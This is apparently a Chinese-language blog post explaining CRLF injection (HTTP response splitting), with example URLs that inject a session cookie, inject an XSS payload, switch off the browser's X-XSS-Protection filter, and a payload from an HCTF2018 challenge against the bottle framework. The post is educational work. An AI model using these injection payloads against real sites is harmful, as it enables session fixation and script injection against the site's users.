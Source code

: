 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      CRLF注入               # 标题 
subtitle:    #副标题
date:       2020-01-29              # 时间
author:     Von                      # 作者
header-img: img/post-bg-os-metro.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - 

---
```


# 什么是CRLF注入?
CRLF是"回车+换行"(\r\n)(编码后是%0D%0A)的简称,在HTTP中,HTTP Header和HTTP Body是用两个CRLF来分割的。浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

# 具体分析
假如我们可以操控http头中的部分，那么我们就可能实现CRLF注入，我们以最常见的重定向为例:  
假如我们可以在url后面输入参数作为302重定向的对象,假如对于一个正常的
```
http://test.com/?url=http://www.baidu.com 
```
响应头是:  
```
HTTP/1.1 302 Moved Temporarily 
Date: Wed, 29 Jan 2020 20:40:17 GMT 
Content-Type: text/html 
Connection: close 
Location: http://www.baidu.com
```
但是，如果我们构造这样的url:
```
http://test.com/?url=http://www.baidu.com%0aSet_cookie:sessionid=V0n 
```
此时响应头就会变成:
```
HTTP/1.1 302 Moved Temporarily 
Date: Wed, 29 Jan 2020 20:43:33 GMT 
Content-Type: text/html 
Connection: close 
Location: http://www.baidu.com 
cookie: sessionid=V0n 
```
可以看到，此时cookie已经被我们设定成为了一个特定值，也就是形成了一个会话维持漏洞。  
在什么的例子中,我们以%0a分割Set_cookie和重定向网站，只是为了实现设置Http Header，而如果我们设置url为:
```
http://test.com/?url=http://www.baidu.com%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>
```
那么我们的响应头将会变成:
```
HTTP/1.1 302 Moved Temporarily 
Date: Wed, 29 Jan 2020 20:49:33 GMT
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:
<img src=1 onerror=alert(/xss/)>
```
也就是实现了一个XSS漏洞，而且这个的牛逼之处还在于可以绕过filter,至于为什么可以绕过filter呢？  
这是因为filter只有在http header中含有X-XSS-Protection且值为0的时候才不会开启，所以我们可以构造如下url:
```
http://test.com/?url=http://www.baidu.com%0aX-XSS-Protection:0%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>
```
从而达到绕过filter的效果。  
值得注意的是，设置X-XSS-Protection只是阻止了浏览器自带的filter,并不能阻止CSP

# CTF例子
HCTF2018里面出了一道bottle的题目，就是利用了CRLF注入，利用的是bottle这个python模块存在CRLF漏洞，具体可以参考P神的这篇文章:[Bottle HTTP 头注入漏洞探究
](https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html) 
题目允许我们跳转到站内的网站，需要注意的是，这个跳转只允许我们跳转到80以下的端口。  
其实这道题还采用了CSP，但是由于bottle的特性(它的header顺序是会改变的),所以我们只需要随机发包，随机到Content-Security-Policy位于Location下面时，便可以实现XSS了。故有payload:  
```
http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:0/%0a%0d%0a%0d<script>alert `1` </script>`
```

# 参考文章
[Hctf2018 writeup](https://bysec.io/hctf/writeup.html#Bottle)    
[Bottle HTTP 头注入漏洞探究](https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html)



